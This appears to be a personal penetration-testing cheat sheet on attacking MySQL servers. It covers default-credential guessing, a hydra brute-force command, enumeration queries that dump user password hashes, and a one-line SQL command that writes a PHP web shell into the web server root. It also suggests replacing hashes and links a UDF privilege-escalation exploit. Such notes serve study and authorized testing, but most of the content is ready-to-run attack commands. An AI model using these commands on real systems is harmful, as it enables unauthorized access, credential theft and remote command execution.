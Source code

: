
### Authentication

Try to resuse the same password for higher priv users:
- user:password --> root:password 
- try `root:root`
```bash
mysql -h <IP> -u <user> -p
```

Bruteforce using hydra:
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://<IP>
```
>[!info]
>Root is the default username


### Enumeration

| Command                     | Info                  |
| --------------------------- | --------------------- |
| `SELECT version();`         | Get MySQL version     |
| `SELECT system_user();`     | Get current DB user   |
| `SHOW DATABASES;`           | List databases        |
| `USE <DB>;`                 | Use DB                |
| `SHOW TABLES;`              | List tables           |
| `SELECT * FROM mysql.user;` | Get DB users & hashes |


### Attacks

**Write webshell to webserver root:**
```bash
select "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php';
```

Tricks:
- Replace hash of a user if it can't be cracked


**Privilege Escalation**

UDF:
- https://www.exploit-db.com/exploits/1518
- Writeups: [[Pebbles]] && [[Banzai]]
